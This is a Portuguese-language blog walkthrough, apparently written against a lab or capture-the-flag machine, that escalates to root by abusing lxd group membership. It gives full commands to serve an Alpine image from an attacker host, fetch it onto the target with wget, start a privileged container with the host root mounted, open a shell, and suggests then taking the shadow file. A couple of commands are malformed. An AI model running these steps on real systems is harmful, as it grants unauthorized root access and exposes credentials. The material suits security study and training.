PRIVILEGE ESCALATION BY LXD/LXC
----------------------------------------------------------------
offensive think :: artigo técnico em formato zine / nfo
----------------------------------------------------------------
titulo : Privilege Escalation by LXD/LXC
autor : offensive think
data : Thu, Aug 6, 2020
tags : privEsc
----------------------------------------------------------------
--> https://www.offensivethink.com/posts/priv-esc-lxd.html <--
---[ INDEX ]------------------------------------------------------------
0 - Too Long To Read - TL; TR;
1 - Começando do Começo
2 - O que é LXD/LXC ?
---[ 0x00 - TOO LONG TO READ - TL; TR; ]--------------------------------
Se o usuário for do *grupo lxd* é possível instanciar um container com um linux e montar a raiz do host nele, tendo assim permissão total a todos os arquivos.
NO KALI ATACANTE - Montar a Imagem
(Caso a máquina atacada não tenha acesso a Internet)
$ https://github.com/diegoalbuquerque/lxd-alpine-builder
$ cd lxd-alpine-builder
$ ./build-alpine
$ python3 -c http.server 80
NA VM ATACADA
$ cd /tmp
$ wget http://192.168.1.5/alpine-v3.12-x86_64-20200806_1741.tar.gz
$ /snap/bin/lxc image import /tmp/alpine-v3.12-x86_64-20200806_1741.tar.gz --alias myimage
# Caso o LXD não possua Storage Pool
$ lxd init
# ou Criar um Pool do tipo dir
$ /snap/bin/lxc storage create pool dir
# myimage = nome da imagem que importamos
# mycontainer = nome do container que estamos inicializando
$ lxc init myimage mycontainer -c security.privileged=true
# adicionando um device disk ao container
# source = / (O conteudo do disco será a raiz da vm!)
# path = /mnt/host (Onde o disco será montado)
$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/host recursive=true
# Inicializando o container
$ lxc start mycontainer
# Executando no container o comando /bin/sh
$ lxc exec mycontainer /bin/sh
diegoalbuquerque/lxd-alpine-builder
https://github.com/diegoalbuquerque/lxd-alpine-builder/blob/master/build-alpine
---[ 0x01 - COMEÇANDO DO COMEÇO ]---------------------------------------
Existe uma forma de escalar privilégio quando o usuário no qual você está logado pertence ao grupo lxd

Isso permite o usuário escalar o privilégio através do deamon LXD , rodando no linux, sem a necessidade inclusive de saber a senha do usuário, o que é útil em nosso caso onde logamos na máquina com a chave privada do usuário e não sabemos a sua senha. ---[ 0x02 - O QUE É LXD/LXC ? ]----------------------------------------- lxc/lxd https://github.com/lxc/lxd O LXD é um deamon gerenciador de containers, como o docker, baseado em imagens. Para controle dos containers e das imagens é utilizado o binário LXC.

:: Como funciona o ataque ?! Como o usuário,oscp, pertence ao grupo lxd isso indica que ele pode instanciar containers onde ele mesmo é root. Para a exploração então vamos instanciar um container contendo um Alpine Linux e montando nele todo a raiz do host local. Uma vez montado dentro do Alpine linux poderemos acessar todos os arquivos do host local através do ponto de montagem. :: Atacando Observe que lxd está inicializado

Observe que, como o lxd não está no path do usuário, foi necessário procurá-lo, ficanto então o s binários lxd e lxc dentro do diretário /snap/bin/


O Linux Container trabalha com imagens que servirão de base para instanciar o container em si, logo precisaremos de uma imagem. É possível baixar uma imagem diretamente dos repositórios públicos pré-configurados com o lxd, mas esta máquina não possui conexão com a Internet, logo *precisaremos disponibilizar a imagem manualmente para a máquina*.

Comandos para buscar imagens

Para montar uma imagem, sem a necessidade de ter uma máquina com o lxd instalado, utilizaremos o script build-alpine clonado do repositório:
diegoalbuquerque/lxd-alpine-builder
https://github.com/diegoalbuquerque/lxd-alpine-builder
_Este é um fork do saghul/lxd-alpine-builder_
Em seu kali local (_iremos depois subir a imagem para a vm)_, executar :
$ https://github.com/diegoalbuquerque/lxd-alpine-builder
$ cd lxd-alpine-builder
$ ./build-alpine
*Atenção! *Aparentemente alguns "mirrors" estão com problema levando o script a falhar, não terminando conforme esperado:

Erro ao acessar o mirror.csclub.unwaterloo.ca
Executando o script algumas vezes ele termina o processo quando o repositório está ok.

Script executado com sucesso ao acessar o mirror mirror.clarkson.edu
Ao final teremos a imagem salva no formato .tar.gz —> alpine-v3.12-x86_64-20200806_1741.tar.gz Agora de posse da imagem vamos subir um sevidor web para disponibilizá-la para nossa VM a ser atacada.

Agora na VM , vamos importar a imagem com o comando lxc. Caso você possua um servidor web https em seu kali (queira levantar o apache, etc.), é possível importar diretamente com o comando lxc image import , mas o comando não aceita http, logo temos que copiar o arquivo para a VM para poder importar diretamente do filesystem

$ cd /tmp
$ wget http://192.168.1.5/alpine-v3.12-x86_64-20200806_1741.tar.gz
$ /snap/bin/lxc image import /tmp/alpine-v3.12-x86_64-20200806_1741.tar.gz --alias myimage

Observe que o comando não aceita caminho relativo para a imagem

Imagem devidamente importada
Vamos agora configurar e instanciar um novo container montando como "disco externo" a nossa raiz em um diretório /tmp/host .

Ao tentar inicializar o container o lxd nos informar que falta o storage pool. Isso pode ser um sinal de que o LXD não foi inicializado. Vamos inicializa-lo apontando como storage pool a opção dir, de diretório , já que não queremos usar uma partição específica para armazenamento.

Observe que na inicialização o único parâmetro alterado foi o Name of Storage Backend. Todos os outros foram deixados com a configuração default. Estamos atacando e não configurando um servidor, certo! ;D
# myimage = nome da imagem que importamos
# mycontainer = nome do container que estamos inicializando
$ lxc init myimage mycontainer -c security.privileged=true
# adicionando um device disk ao container
# source = / (O conteudo do disco será a raiz da vm!)
# path = /mnt/host (Onde o disco será montado)
$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/host recursive=true
# Inicializando o container
$ lxc start mycontainer
# Executando no container o comando /bin/sh
$ lxc exec mycontainer /bin/sh

Uma vez agora com o shell do container , vamos acessar o diretório que mapeou a nossa raiz e obter a flag.

Missão cumprida. Como somos root e temos acesso a toda a raíz do host, podemos, se fosse o caso, efetuar outras alterações no sistema, capturar o shadow, etc.
---[ EOF ]--------------------------------------------------------------
offensive think / 2026